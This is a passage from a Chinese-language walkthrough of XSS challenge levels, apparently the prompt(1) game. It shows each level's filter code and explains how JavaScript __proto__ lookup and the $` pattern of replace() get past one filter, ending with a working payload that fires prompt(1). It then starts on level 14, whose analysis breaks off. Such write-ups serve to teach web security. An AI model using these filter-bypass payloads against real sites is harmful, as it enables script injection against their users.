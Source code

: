 ```
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}        
```
这题的源码实在过于复杂，于是这里贴上官方的解释和payload：
这个题目涉及到js中的__proto__，每个对象都会在其内部初始化一个属性，就是__proto__，当我们访问对象的属性时，如果对象内部不存在这个属性，那么就会去__proto__里面找这个属性，这个__proto__又会有自己的__proto__，一直这样找下去。可以再Chrome控制台中测试：
```
config = {
    "source": "_-_invalid-URL_-_",
    "__proto__": {
        "source": "my_evil_payload"
    }
}
```
输入
```
delete config.source
config.source
```
返回my_evil_payload

还有一个技巧是，replace()这个函数，他还接受一些特殊的匹配模式。
**$` 替换查找的字符串，并且在头部加上比配位置前的字符串部分**
例如：
```
'123456'.replace('34','$`xss')
```
返回：
```
'1212xss56'
```
这样一来构造出payload:
```
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
```
## level14 ##
```
Text Viewer
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');

    return '<img src="' + input + '">';
} 
```
1、首先所有的都是用大写字母。